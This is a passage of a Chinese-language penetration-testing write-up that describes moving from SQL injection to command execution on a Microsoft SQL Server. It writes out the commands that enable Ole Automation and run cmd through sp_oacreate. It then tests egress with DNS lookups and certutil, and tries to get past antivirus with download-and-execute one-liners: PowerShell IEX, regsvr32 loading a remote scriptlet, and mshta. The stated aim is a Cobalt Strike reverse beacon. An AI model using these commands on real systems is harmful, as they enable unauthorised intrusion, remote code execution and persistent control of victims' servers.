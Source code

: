 
```
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'show advanced options', 0;
```

执行：

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-07-02.png)

通过调用`sp_oacreate`能够获得一个数字返回值，若全是0，则执行失败，必须有1。

## 判断网络环境

能执行命令后，为了判断能否出网，先尝试DNS Log。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-08-54.png)


![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-09-18.png)

在`os-shell`中，执行：`nslookup xxxxx.net`，burp看回显即可。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-11-13.png)

DNS能出，接下来看TCP报文...

这里我使用`certutil`、`bitsadmin`命令来测试，但是么有截图...

```
$ python3 -m http.server
```

```
os-shell>certutil -urlcache -split -f http://xxx:8000/
```

收到相应的请求后，基本上稳妥了，可以采用`reverse_tcp`的方案，用powershell反弹一个beacon到cobalt strike上。

## Regsvr32妙用

测试的过程中，并不顺利，后来我发现它有反病毒软件...

尝试了以下方法：

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/a22'))"

regsvr32 /s /n /u /i:http://x.x.0.x:8080/zfgJrh6V.sct scrobj.dll

mshta http://xxx.xx.xx.xx/1.hta
```
